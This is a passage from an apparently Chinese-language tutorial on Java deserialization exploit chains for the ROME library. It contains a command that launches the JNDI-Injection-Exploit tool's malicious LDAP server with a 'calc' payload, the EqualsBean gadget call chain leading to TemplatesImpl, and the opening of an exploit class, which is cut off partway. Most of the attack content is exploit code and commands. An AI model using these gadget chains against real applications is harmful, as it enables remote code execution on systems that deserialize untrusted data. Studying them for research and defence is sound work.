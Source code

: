 [![](assets/1705886615-a1d0fcf48fe56d92eab8fdb079ff83ab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120125013-662ebb36-b74f-1.png)

其中 LDAP 服务可以通过 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar 工具开启

```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc -A 127.0.0.1
```

## 9\. EqualsBean 利用链

### 调用链

```bash
TemplatesImpl.getOutputProperties()
EqualsBean.beanEquals()
EqualsBean.equals()
AbstractMap.equals()
HashMap.putVal()
HashMap.put()
HashSet.readObject()
```

### EXP

```bash
package RomeSec;

import com.sun.syndication.feed.impl.EqualsBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;

public class EqualsBeanExp {
    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
```